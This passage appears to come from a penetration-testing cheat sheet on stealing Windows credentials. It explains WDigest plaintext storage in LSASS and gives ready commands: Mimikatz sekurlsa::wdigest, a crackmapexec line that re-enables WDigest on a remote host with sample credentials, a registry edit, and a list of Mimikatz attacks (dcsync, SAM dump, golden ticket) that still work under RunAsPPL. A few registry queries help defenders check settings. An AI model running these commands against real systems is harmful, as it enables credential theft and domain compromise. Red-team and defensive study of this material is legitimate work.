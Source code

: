 Enabled *by default* in multiple versions of Windows:
- Windows XP
- Windows 8.0
- Server 2003
- Server 2008
- Server 2012

--> With *WDigest* plain text passwords are stored in LSASS.  

Retrieving using Mimikatz
```
sekurlsa::wdigest
```

Can be deactivated/activated setting to *1* the value of *UseLogonCredential* and *Negotiate* in **HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest**.  
--> If these registry keys don't exist or the value is "0", then WDigest will be deactivated.  

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v Negotiate
```

As an attacker you can reactivate WDigest to get cleartext credentials on sensitive systems.  
```
crackmapexec smb 192.168.0.10 -u jdoe -p Pass123 -M wdigest -o ACTION=enable
```
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

#### Passwords stored in LSA (LSA Storage)

Since *Windows 8.1* you can protect LSA storage using Protected Process ([RunAsPPL](https://itm4n.github.io/lsass-runasppl/)).  
--> This will prevent regular ```mimikatz.exe sekurlsa:logonpasswords``` for working properly.

With this registry key enable, the following *3* actions (which require an handle on LSASS  ) will no longer be possible:
```
sekurlsa:logonpasswords
lsadump::lsa: Did not work
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmhash>
```

With this registry key enable, the following *5* actions will still be possible:
```
lsadump::dcsync /domain:<domain> /user:<user>
lsadump::secrets (get syskey information to decrypt secrets from the registry on disk)
lsadump::sam (Reading credentials from the SAM on disk)
kerberos::golden /user:<user> /domain:<domain> /sid:<sid> /krbtgt:<krbtgt hash> /endin:<value> /renewmax:<value>
keystroke logging
```

Validate *RunAsPPL* is enable
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL
```
